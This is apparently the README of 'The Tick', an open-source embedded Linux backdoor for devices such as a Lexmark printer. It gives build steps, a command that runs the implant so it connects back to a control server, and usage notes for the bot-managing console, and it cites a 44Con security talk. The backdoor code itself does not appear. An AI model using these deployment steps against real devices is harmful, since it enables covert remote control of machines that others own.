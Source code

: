 # The Tick

A simple embedded Linux backdoor.
![Screenshot 1](doc/screenshot-big.png "Screenshot")

## Compiling

The Tick depends only on libcurl, so make sure you have the corresponding development package. For example on Debian based distributions you would do the following:

```
sudo apt-get install libcurl-dev
```

Once the dependencies are installed just run the makefile:

```
cd src
make clean
make
```

Once the "make" command has run to completion, the compiled binary can be found at the "bin" folder. This is the binary you want to run on your target machine to control it remotely.

When cross-compiling for supported platforms, the dependency resolution and compilation is done automatically for you. Currently the only supported cross-compiling platform is the Lexmark CX310DN printer, but more devices will be added later. Consult the makefile for more details.

The command and control console is written in Python and therefore needs not be compiled.

## Installing

Obtaining persistence on the backdoor will depend heavily on the target platform, and therefore is not documented here.

On the target machine, run the backdoor binary with the following arguments:

```
./ticksvc ADDR PORT
```

Where "ADDR" and "PORT" must be replaced by the IP address and port where the command and console will be listening. The default port is 5555.

The command and control console requires no installation, but may have unresolved dependencies. Run the following command to ensure all dependencies are properly installed (note this does not need sudo):

```
pip install --upgrade -r requirements.txt
```

In most Linux desktop environments the following "Tick.desktop" file will create an icon you can double click to run the console:

```
[Desktop Entry]
Encoding=UTF-8
Value=1.0
Type=Application
Name=The Tick
GenericName=The Tick
Comment=An embedded Linux backdoor
Icon=/opt/thetick/doc/logo.png
Exec=/opt/thetick/tick.py
Terminal=true
Path=/opt/thetick/
```

The exact location for the Tick.desktop file may vary across Linux distributions but generally placing it in the desktop should work. Make sure to edit the path to wherever you downloaded The Tick (/opt/thetick in the above example).

## Usage

To run the backdoor binary on the target platform, set the control server hostname and port as command line options. For example:

```
./ticksvc control.example-domain.com 5555
```

At the control server, you may want to run the console inside a GNU screen instance or similar:

```
sudo apt-get install screen
screen -S thetick ./thetick.py
```

That way you can detach from the console by pressing Control+A followed by D. You can return to the console later like this:

```
screen -r thetick
```

The console will let you know when a new bot connects to it. Use the "bots" command to show the currently connected bots, and the "use" command will select a bot to work with. The "help" command shows the user manual.

Here are a few screenshots illustrating what the console is capable of:

Command line switches
![Screenshot 2](doc/screenshot-banners.png "Screenshot")

Interactive console help
![Screenshot 3](doc/screenshot-help.png "Screenshot")

## Media

The Tick has been referenced in the following 44Con presentation by Daniel Romero and Mario Rivas:

[![](http://img.youtube.com/vi/plu7U0Sq9HQ/0.jpg)](http://www.youtube.com/watch?v=plu7U0Sq9HQ "Office Equipment: The Front Door To Persistence On Enterprise Networks - D. Romero and M. Rivas")
